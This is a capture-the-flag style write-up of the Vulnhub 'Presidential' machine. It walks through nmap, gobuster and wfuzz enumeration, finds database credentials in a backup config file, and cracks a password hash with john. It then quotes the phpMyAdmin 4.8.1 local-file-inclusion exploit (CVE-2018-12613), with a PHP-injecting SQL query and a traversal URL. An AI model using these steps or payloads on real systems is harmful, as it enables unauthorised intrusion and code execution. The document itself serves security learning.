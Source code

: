 ```yaml
---
title: Vulnhub - Presidential
description: My writeup on Presidential box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://www.history.com/.image/ar_16:9%2Cc_fill%2Ccs_srgb%2Cfl_progressive%2Cg_faces:center%2Cq_auto:good%2Cw_768/MTY3MTc2NDg2OTU5MjYxMDM2/presidential-elections-gettyimages-78679210.jpg)

Hi all, this was a really interesting and "hard" box. Took me around 10 hours to pwn it. Let's pwn it!

You can find the machine there > [Presidential](https://www.vulnhub.com/entry/presidential-1,500/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.14
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-14 15:02 EEST
Nmap scan report for votenow.local (192.168.1.14)
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2082/tcp open  infowave
MAC Address: 00:0C:29:A1:D7:E1 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.24 seconds
$ nmap -p 80,2082 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-14 15:04 EEST
Nmap scan report for votenow.local (192.168.1.14)
Host is up (0.00057s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.5.38
|_http-title: Ontario Election Services &raquo; Vote Now!
2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:40:f4:e5:8c:ad:1a:e6:86:de:a5:75:d0:a2:ac:80 (RSA)
|   256 e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99 (ECDSA)
|_  256 66:a8:a1:9f:db:d5:ec:4c:0a:9c:4d:53:15:6c:43:6c (ED25519)
MAC Address: 00:0C:29:A1:D7:E1 (VMware)
```

When we visit the website we can see this in top left corner : `contact@votenow.local` That's probably the domain. Since the anatomy of an email address is this:

```
contact@votenow.local
  ^          ^
 user      domain
```

Let's add it to `/etc/hosts`:

`192.168.1.14    votenow.local`

Let's run `gobuster` on it now.

```
$ gobuster dir -q -u http://$ip/ -w $dir_medium -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/about.html (Status: 200)
/assets (Status: 301)
/config.php (Status: 200)
```

Nothing interesting. `/config.php` is empty. Here i stuck for lot of hours then i tried to brute force extensions but `gobuster` doesnt support extenstion file. Only `wfuzz` can help here:

```
$ wfuzz -c -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-small-extensions.txt --hw 854 --hc 404,403 http://$ip/FUZZFUZ2Z  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.14/FUZZFUZ2Z
Total requests: 19371708

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000075115:   200        0 L      0 W      0 Ch        "config - .php"                                                                                                         
000075427:   200        8 L      14 W     107 Ch      "config - .php.bak" 
```

Perfect `/config.php.bak` has some database creds in:

```
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```

But how we can use them?? Since we have a domain `votenow.local` we can search for subdomains.

```
$ wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.votenow.local" --hw 854 --hc 400 $ip 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.14/
Total requests: 207643

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000009229:   200        68 L     369 W    9500 Ch     "datasafe"
```

Let's add it to `/etc/hosts`:

`192.168.1.14    datasafe.votenow.local`

Now we can see phpmyadmin running there:

![](https://i.ibb.co/wcX07d6/Screenshot-4.png)

We can use creds here `votebox:casoj3FFASPsbyoRP` & we're in! Under `users` table we can see a username and an encrypted password, let's crack it with john (takes some time):

```
$ touch password
$ cat password 
2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Press 'q' or Ctrl-C to abort, almost any other key for status
Stella           (?)
```

Now if we try to login with SSH we cant:

```
$ ssh admin@$ip -p 2082
admin@192.168.1.14: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

We need to find another way to get access.. let's check phpmyadmin version:

![](https://i.imgur.com/7Pn1wDQ.png)

Let's search for possible exploits:

```
$ searchsploit phpmyadmin 4.8.1
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                            | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                            | php/webapps/44928.txt
```

Here we go.. let's check it:

```
$ searchsploit -m php/webapps/44928.txt
  Exploit: phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)
      URL: https://www.exploit-db.com/exploits/44928
     Path: /usr/share/exploitdb/exploits/php/webapps/44928.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/presidential/44928.txt

$ cat 44928.txt 
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k#     
```

Perfect we can spawn a shell! 


